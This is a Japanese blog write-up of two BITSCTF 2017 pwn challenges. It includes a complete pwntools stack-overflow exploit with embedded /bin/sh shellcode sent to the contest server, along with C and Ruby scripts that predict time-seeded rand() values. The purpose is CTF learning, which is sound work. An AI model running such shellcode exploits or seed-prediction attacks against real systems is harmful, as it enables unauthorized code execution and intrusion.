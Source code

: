 ```yaml
---
title: BITSCTF writeup
date: 2017-02-05 21:15:00+0900
tags: CTF
---
```


[BITSCTF 2017](https://bitsctf.bits-quark.org/) に一人チーム [poepoe](https://bitsctf.bits-quark.org/team/135) でこっそり参加. 50 points で 166 位でした.

キャンプ以来少しずつ勉強してきた pwn の力試しにと登録したのだけど, 開始直後は経験のないジャンルしかなくてすぐ諦めてしまっていた.  
けれどもたまたま今日の夕方見たら2つ追加されてたので急いで解いた.

<!--more-->

## pwn

### Command\_Line <small>(20pt)</small>

x86-64 の ELF.

    $ file pwn1
    pwn1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=af1191f6192afa5c46c4146c085b0d85925a28ce, not stripped
    
    $ gdb pwn1
    Reading symbols from pwn1...(no debugging symbols found)...done.
    gdb-peda$ checksec 
    CANARY    : disabled
    FORTIFY   : disabled
    NX        : disabled
    PIE       : disabled
    RELRO     : Partial

`main()` 関数を見るとこんな感じ.  
親切にもバッファのアドレスを教えてくれた後, `scanf("%s")` でそこに入力を読み取ってるだけのプログラムだった.

    $ r2 -A pwn1
    [x] Analyze all flags starting with sym. and entry0 (aa)
    [x] Analyze len bytes of instructions for references (aar)
    [x] Analyze function calls (aac)
    [ ] [*] Use -AA or aaaa to perform additional experimental analysis.
    [x] Constructing a function name for fcn.* and sym.func.* functions (aan))
     -- Ilo ni li pona li pali e lipu. mi wile e ni: sina kama jo e musi
    [0x00400470]> e asm.nbytes = 0
    [0x00400470]> pdf @ main
                ;-- main:
    / (fcn) sym.main 63
    |   sym.main ();
    |           ; var int local_10h @ rbp-0x10
    |              ; DATA XREF from 0x0040048d (entry0)
    |           0x00400566      push rbp
    |           0x00400567      mov rbp, rsp
    |           0x0040056a      sub rsp, 0x10
    |           0x0040056e      lea rax, qword [rbp - local_10h]
    |           0x00400572      mov rsi, rax
    |           0x00400575      lea rdi, qword str.0x_lx_n                 ; 0x400634 ; str.0x_lx_n ; "0x%lx." @ 0x400634
    |           0x0040057c      mov eax, 0
    |           0x00400581      call sym.imp.printf                       ; int printf(const char *format)
    |           0x00400586      lea rax, qword [rbp - local_10h]
    |           0x0040058a      mov rsi, rax
    |           0x0040058d      lea rdi, qword 0x0040063b                  ; 0x40063b ; "%s"
    |           0x00400594      mov eax, 0
    |           0x00400599      call sym.imp.__isoc99_scanf               ; int scanf(const char *format)
    |           0x0040059e      mov eax, 0
    |           0x004005a3      leave
    \           0x004005a4      ret

`scanf()` で読み込む文字数等を指定していないので Stack buffer overflow が起こせる. Canary も NX bit もないので, リターンアドレスを書き換えて流し込んだシェルコードに飛ばして解いた. 接続がすぐ切れてしまうので, 予め `ls` してファイル名を確認してスクリプトから `cat flag` した.

```python
from pwn import *

# $ gdb pwn1
# Reading symbols from pwn1...(no debugging symbols found)...done.
# gdb-peda$ r
# 0x7fffffffde50
# AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH
#
# Program received signal SIGSEGV, Segmentation fault.
# (...)
# gdb-peda$ x/gx $rsp
# 0x7fffffffde68:	0x413b414144414128
# gdb-peda$ patto 0x413b414144414128
# 4700422384665051432 found at offset: 24
padding = 24

# $ msfconsole
# msf > use payload/linux/x64/exec 
# msf payload(exec) > generate -b '\x00' -t python -o CMD=/bin/sh
shellcode =  ''
shellcode += '\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05'
shellcode += '\xef\xff\xff\xff\x48\xbb\x53\xf2\xa1\x2c\x3c\xa0\x78'
shellcode += '\x1a\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4'
shellcode += '\x39\xc9\xf9\xb5\x74\x1b\x57\x78\x3a\x9c\x8e\x5f\x54'
shellcode += '\xa0\x2b\x52\xda\x15\xc9\x01\x5f\xa0\x78\x52\xda\x14'
shellcode += '\xf3\xc4\x34\xa0\x78\x1a\x7c\x90\xc8\x42\x13\xd3\x10'
shellcode += '\x1a\x05\xa5\xe9\xa5\xda\xaf\x7d\x1a'

# r = process('./pwn1')
r = remote('bitsctf.bits-quark.org', 1330)

addr_buffer = int(r.readline()[:-1], 16)
log.info('addr_buffer: 0x%x' % addr_buffer)

payload = ''
payload += 'A' * padding
payload += p64(addr_buffer + padding + 8)
payload += shellcode
r.sendline(payload)

# r.interactive()
r.sendline('cat flag')
log.success('Flag: %s' % r.recv())
```

    $ python2 exploit.py
    [+] Opening connection to bitsctf.bits-quark.org on port 1330: Done
    [*] addr_buffer: 0x7fffffffe620
    [+] Flag: BITSCTF{b451c_57r416h7_f0rw4rd_5h3llc0d1n6}
    [*] Closed connection to bitsctf.bits-quark.org port 1330

### Random Game <small>(30pt)</small>

同じく x86-64 の ELF.

    $ file third
    third: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6c26456447632034ed1ad87d3161adcf72daa6c3, not stripped

`main()` 関数の処理はだいたいこんな感じだった.

1. `srand(time(0))`
2. `rand() & 0xf`
3. `scanf("%d")` して 2 の値と比較
    - 違ってたら `exit(0)`
4. 2-3 を30回繰り返す
5. `./flag` を `open()` -> `read()` -> `printf()`

少し悩んだけど, 乱数の seed に `time(0)` を使ってるので, サーバ側の時間がわかれば乱数を推測できそうなのに気づく.

問題は先程のと同じサーバで動いていると予測. まずは先程のスクリプトを使って `date +%s` を実行し, 手元の環境の時間と大きなズレがないことを確認.  
(注: この結果は後から実行したもの)

    $ date +%s ; python2 exploit.py
    1486292363
    [+] Opening connection to bitsctf.bits-quark.org on port 1330: Done
    [*] addr_buffer: 0x7fffffffe620
    [+] date +%s: 1486292363
    [*] Closed connection to bitsctf.bits-quark.org port 1330

あとは問題と同じ方法で30個の乱数を作る C のコードと問題を解くスクリプトを書いて終わり.

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main() {
  srand(time(0));

  for (int i = 0; i < 30; ++i) {
    printf("%d ", rand() & 0xf);
  }
}
```

```ruby
require 'socket'

s = TCPSocket.new 'bitsctf.bits-quark.org', 1337

randnums = `./rand30`.split

30.times do |n|
  print s.gets 'round : '
  s.puts randnums[n]
  puts randnums[n]
end

puts s.gets
```

    $ clang rand30.c -o rand30
    
    $ ruby solve.rb
    your number for 1 round : 8
    your number for 2 round : 4
    your number for 3 round : 9
    your number for 4 round : 10
    your number for 5 round : 9
    your number for 6 round : 4
    your number for 7 round : 6
    your number for 8 round : 6
    your number for 9 round : 3
    your number for 10 round : 5
    your number for 11 round : 15
    your number for 12 round : 13
    your number for 13 round : 12
    your number for 14 round : 3
    your number for 15 round : 15
    your number for 16 round : 2
    your number for 17 round : 7
    your number for 18 round : 5
    your number for 19 round : 6
    your number for 20 round : 8
    your number for 21 round : 14
    your number for 22 round : 2
    your number for 23 round : 12
    your number for 24 round : 12
    your number for 25 round : 14
    your number for 26 round : 8
    your number for 27 round : 13
    your number for 28 round : 4
    your number for 29 round : 3
    your number for 30 round : 13
    congrats you are rewarded with the flag BITSCTF{54m3_533d_54m3_53qu3nc

なぜか Flag が最後まで送られてこない... 最後のワードを補完して `BITSCTF{54m3_533d_54m3_53qu3nc3}` で通った.
